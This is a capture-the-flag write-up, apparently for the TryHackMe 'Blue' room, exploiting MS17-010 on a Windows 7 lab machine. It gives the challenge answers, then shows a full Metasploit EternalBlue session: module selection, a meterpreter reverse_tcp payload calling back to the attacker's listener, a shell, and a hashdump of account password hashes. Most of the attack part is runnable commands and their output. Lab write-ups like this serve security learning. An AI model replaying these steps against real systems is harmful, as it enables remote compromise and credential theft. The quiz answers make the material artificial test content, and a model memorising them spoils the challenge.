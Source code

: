 # Blue

- Machine IP: `10.10.115.41`
- OS 		: `Windows`
- Exploit	:

- Nmap recon, ports  135`(msrcp)`, 139`(smb)`, 445`(samba)`, 3389`(ms--wbt-server)`, 49152`(???)` , 49153 `(???)`, 49158 `(???)`, 49158 `(???)` are open
- Running vulnerable scripts on the ports prompts this machine is vulnerable to `smb-vuln-ms17-010` --> `CVE-2017-0143`

### RECON

> How many ports are open with a port number under 1000?
`3`

> What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
`ms17-010`

- Vulnerability again checked with the python [script](https://raw.githubusercontent.com/nixawk/labs/master/MS17_010/smb_exploit.py)

```bash
kali@kali:~/writeups/thm/blue$ python2 MS17-010.py 10.10.115.41
[+] [10.10.115.41] is likely VULNERABLE to MS17-010! (Windows 7 Professional 7601 Service Pack 1)

```

- Lets exploit this service, with metasploit 

```bash
msf6 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.202.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.16.27
rhosts => 10.10.16.27
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.14.10.227
lhost => 10.14.10.227
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[..snip..]
[*] Meterpreter session 1 opened (10.14.10.227:4444 -> 10.10.16.27:49175) at 2021-05-05 04:01:37 -0400
[+] 10.10.16.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.16.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.16.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
meterpreter >hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

```